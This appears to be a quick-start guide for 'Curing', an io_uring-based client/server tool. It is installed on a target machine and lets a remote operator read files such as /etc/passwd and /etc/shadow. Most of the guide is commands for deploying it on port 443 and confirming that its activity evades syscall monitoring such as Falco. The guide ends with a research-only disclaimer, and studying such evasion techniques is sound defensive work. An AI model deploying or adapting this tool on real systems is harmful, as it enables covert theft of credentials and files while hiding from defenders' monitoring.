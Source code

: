 # Curing Quick Start Guide

## 🚀 5-Minute Setup

### 1. Build
```bash
make clean && make all
```

### 2. Start Server (Terminal 1)
```bash
./build/server                    # Default: localhost:8888
./build/server -port 9999         # Custom port
./build/server -host 0.0.0.0      # Bind all interfaces
```

### 3. Start Interactive Client (Terminal 2)
```bash
./build/client -interactive                    # Local connection
./build/client -interactive -port 9999        # Custom port
./build/client -interactive -host 192.168.1.5 # Remote server
```

### 4. Read Files Interactively
```
> /etc/hostname
> /etc/passwd
> /var/log/syslog
> quit
```

## 🌐 Remote Deployment

### Server (Target Machine)
```bash
./build/server -host 0.0.0.0 -port 443  # Bind all interfaces, port 443
```

### Client (Operator Machine)  
```bash
./build/client -interactive -host 192.168.1.100 -port 443
```

## 📋 Common Commands

### Server Commands
```bash
./build/server -help                    # Show help
./build/server -port 8080              # Custom port
./build/server -host 0.0.0.0           # Bind all interfaces  
./build/server -config custom.json     # Custom config file
```

### Client Commands
```bash
./build/client -help                           # Show help
./build/client -interactive                    # Interactive mode
./build/client -host 10.0.0.1 -port 8080     # Connect to remote server
./build/client -interactive -config custom.json  # Custom config file
```

## 🔧 Configuration Template

Create `custom-config.json`:
```json
{
    "server": {
        "host": "0.0.0.0", 
        "port": 443
    },
    "connect_interval_sec": 300
}
```

Use config file:
```bash
./build/server -config custom-config.json
./build/client -interactive -config custom-config.json
```

## ⚡ Testing Examples

### Large Files
```bash
> /var/log/syslog
> /proc/meminfo  
> /proc/cpuinfo
```

### System Files
```bash
> /etc/passwd
> /etc/hosts
> /etc/resolv.conf
> /etc/fstab
```

## 🛡️ Bypass Verification

### Verify io_uring Usage
```bash
# Monitor syscalls (separate terminal)
strace -f -e trace=openat,read,write -p $(pgrep server)

# Use client to read files
./build/client -interactive
> /etc/passwd
```

You should see **no file operation syscalls** from the server process - everything goes through io_uring.

### Network Verification  
```bash
# Monitor network syscalls
strace -f -e trace=socket,connect,send,recv -p $(pgrep client)
```

Client should also show no traditional network syscalls.

## 🔍 Troubleshooting

### Connection Issues
```bash
netstat -tlnp | grep :8888    # Check if port is listening
telnet localhost 8888         # Test connection
```

### Permission Issues  
```bash
ls -la /etc/shadow            # Check file permissions
sudo ./build/server           # Run as root if needed
```

## 📚 More Information

- **[Main README](README.md)** - Overview and features
- **[Original POC](poc/POC.md)** - Falco bypass demonstration  
- **[Changelog](CHANGELOG.md)** - What's new in this version

---

**⚠️ Security Notice**: For security research and education only. Follow applicable laws and regulations.
